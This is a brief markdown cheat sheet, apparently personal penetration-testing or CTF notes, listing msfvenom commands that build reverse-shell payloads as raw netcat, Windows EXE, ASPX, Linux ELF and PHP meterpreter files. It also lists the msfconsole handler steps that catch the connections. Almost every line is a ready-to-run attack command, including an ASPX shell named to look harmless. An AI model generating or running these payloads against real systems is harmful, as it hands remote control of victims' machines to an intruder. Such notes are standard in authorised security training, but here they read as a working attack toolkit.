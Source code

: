 # MSF-Venom

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

-p = payload
lhost = our local host IP address
lport = the port to listen on
R = export the payload in raw format
```

## Reverse TCP Payload

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f exe > ./reverse_tcp.exe

On the attacker machine (msfconsole)

msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost IP
msf exploit(handler) > set lport PORT
msf exploit(handler) > exploit
```

## ASP.NET shell

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.11.9.134 lport=53 -f aspx -o notashell.aspx
```

## Elf shell

Good for multi/handler

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.11.9.134 LPORT=9002 -f elf -o rev
erse.elf
```

## PHP and meterpreter shell

```
msfvenom -p php/meterpreter_reverse_tcp lhost=10.13.37.4 lport=53 -o meterpreter.php

use exploit/multi/handler
set lhost 10.13.37.4
set payload php/meterpreter_reverse_tcp
set lport 53
run
```
